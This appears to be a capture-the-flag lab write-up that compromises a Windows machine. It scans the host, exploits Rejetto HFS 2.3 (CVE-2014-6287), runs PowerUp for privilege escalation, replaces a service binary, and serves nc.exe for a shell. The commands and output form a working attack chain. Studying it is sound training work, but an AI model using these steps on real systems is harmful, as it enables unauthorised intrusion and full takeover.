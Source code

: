 ## Scanning
```
nmap 10.10.148.211
nmap -p 8080 -sV 10.10.148.211
# 8080/tcp open  http    HttpFileServer httpd 2.3
```

## Exploit 
Rejetto HTTP File Server - CVE-2014-6287

```
upload https://github.com/PowerShellMafia/PowerSploit/blob/master/Privesc/PowerUp.ps1
load powershell 
powershell_shell
. .\PowerUp.ps1 # to load ps1

Invoke-AllChecks
#  Invoke-AllChecks function, which runs through all relevant checks for the machine and outputs a status report
# AdvancedSystemCareService9
# CanRestart option that is set to true

ServiceName    : AdvancedSystemCareService9
Path           : C:\Program Files (x86)\IObit\Advanced SystemCare\ASCService.exe
ModifiablePath : @{ModifiablePath=C:\; IdentityReference=BUILTIN\Users; Permissions=AppendData/AddSubdirectory}
StartName      : LocalSystem
AbuseFunction  : Write-ServiceBinary -Name 'AdvancedSystemCareService9' -Path <HijackPath>
CanRestart     : True
Name           : AdvancedSystemCareService9
Check          : Unquoted Service Paths


# The CanRestart option being true, allows us to restart a service on the system, the directory to the application is also write-able. This means we can replace the legitimate application with our malicious one, restart the service, which will run our infected program!

sc stop AdvancedSystemCareService9
copy your_exe.exe C:\Program Files (x86)\IObit\Advanced SystemCare\ASCService.exe
# mv or rm wont work wtf

```

## Without msfconsole
* Directly use exploit https://www.exploit-db.com/exploits/39161
* place nc.exe on your local and run a http server at 80
* run exploit twice
* GET IN
